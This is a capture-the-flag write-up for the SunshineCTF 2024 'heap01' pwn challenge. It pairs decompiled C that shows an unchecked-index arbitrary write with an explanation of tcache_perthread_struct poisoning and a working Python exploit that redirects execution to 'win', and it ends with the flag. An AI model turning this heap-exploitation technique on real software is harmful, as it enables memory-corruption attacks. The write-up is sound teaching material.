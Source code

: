 # heap01
> ### Category: pwn
>
> I like big chunks and I cannot lie, big chunks make me wanna cry.
>
> This challenge is a HEAP of fun.
>
> Too bad there's only one... right?
>
> right?
>
> oh no.
>
> `nc 2024.sunshinectf.games 24006`
>
> ### Attachments
> `heap01`
> `libc.so.6`

## Overview
The code is rather straightforward:
```c
void func0(void) {
  size_t chunk_size;
  ulonglong *chunk1;
  long idx;
  ulonglong val;
  ulonglong *chunk2;
  long in_FS_OFFSET;
  undefined stack_leak [24];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("Do you want a leak? ");
  get_inp();
  printf("%p\n",stack_leak);
  puts("Enter chunk size: ");
  chunk_size = get_inp();
  chunk1 = (ulonglong *)malloc(chunk_size);
  printf("Here you go: 0x%lx\n",chunk1[3]);
  puts("Let\'s fill that buffer up...\n");
  puts("Index: ");
  idx = get_inp();
  puts("Value: ");
  val = get_inp();
  chunk1[idx] = val;
  puts("The chunk is still hungry... let\'s fill it up some more!\n");
  puts("Index: ");
  idx = get_inp();
  puts("Value: ");
  val = get_inp();
  chunk1[idx] = val;
  chunk2 = (ulonglong *)malloc(chunk_size);
  puts("Value 1: ");
  val = get_inp();
  *chunk2 = val;
  puts("Value 2 - ");
  val = get_inp();
  chunk2[1] = val;
  puts("Value 3 -> ");
  val = get_inp();
  chunk2[2] = val;
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
The following happens:
- program provides a stack leak
- program asks for a chunk size
- program allocates a chunk of this size
- program asks for an index and an 8-byte value to write at that index 2 times; there are no checks on the value of the index, so this is an arbitrary write on an address relative to the chunk
- the program allocates a second chunk of the same size
- program overwrites first 24 bytes of the new chunk with user-supplied values

## Solution
The following method was discovered by [krloer](https://ctf.krloer.com/), I've written the script to exploit it.

Every tcache has a corresponding object of type `tcache_perthread_struct` stored on the heap, which looks as follows:
```c
typedef struct tcache_perthread_struct

{

  char counts[TCACHE_MAX_BINS];

  tcache_entry *entries[TCACHE_MAX_BINS];

} tcache_perthread_struct;
```
`counts` stores the numbers of elements in each bin and `entries` are pointers to the last elements in the corresponding bins. If the size provided to the program is a size that fits into a tcache and we find a way to overwrite the values in `tcache_perthread_struct` for the main thread, the second malloc will "allocate" a chunk at an arbitrary address - this can be used to get a chunk on the stack and to overwrite the return address of `func0` to make it return to `win`. Luckily this is very simple - the `tcache_perthread_struct` object will always be the first chunk on the heap (it's pointed to by `tcache` variable from libc), followed by a chunk which acts as a buffer for `stdin`. The offset from the first chunk allocated by `func0` to `*tcache` will be constant and can be used to calculate proper indeces that allow overwriting appropriate values of the struct.

## Script
```py
from gdb_plus import *

fname = './heap01'
e = ELF(fname, checksec=False)

dbg = Debugger(fname, script='init-gef').remote('2024.sunshinectf.games', 24006)

io = dbg.p

# dbg.b('func0+337')
dbg.c(wait=False)

io.sendlineafter(b'leak? \n', b'')
stack_leak = int(io.recvline().strip()[2:].decode(), 16) + 0x20 # this address points to old RBP value - we can't make it point directly to the return address, as then it is not aligned properly and tcache will abort the program when returning the fake chunk
log.info(f'{stack_leak = :016x}')
io.sendlineafter(b'size: \n', b'24') # 24 bytes - size of the smallest chunk in tcache

offset = 0x1aab010 - 0x1aac2b0 # offset from the 1st chunk from func0 to the tcache struct
assert offset % 8 == 0
idx1 = offset // 8 # index 1 - the number of elements in the first bin
idx2 = (offset + 128) // 8 # index 2 - the address of the last element of the first bin

log.info(f'{idx1 = }, {idx2 = }')

io.sendlineafter(b'Index: \n', f'{idx1}'.encode())
io.sendlineafter(b'Value: \n', b'1')

io.sendlineafter(b'Index: \n', f'{idx2}'.encode())
io.sendlineafter(b'Value: \n', f'{stack_leak}'.encode())

io.sendlineafter(b'Value 1: \n', b'2137') # arbitrary value
io.sendlineafter(b'Value 2 - \n', f'{e.sym["win"] + 25}'.encode()) # e.sym["win"] + 25 - skip 25 bytes - the instructions that initialise the stack frame - because otherwise the stack will be misaligned and the program will segfault
io.sendlineafter(b'Value 3 -> \n', b'2137') # arbitrary value

io.interactive()
```

## Flag
`sun{Wait, this datastructure is here? This is helpful}`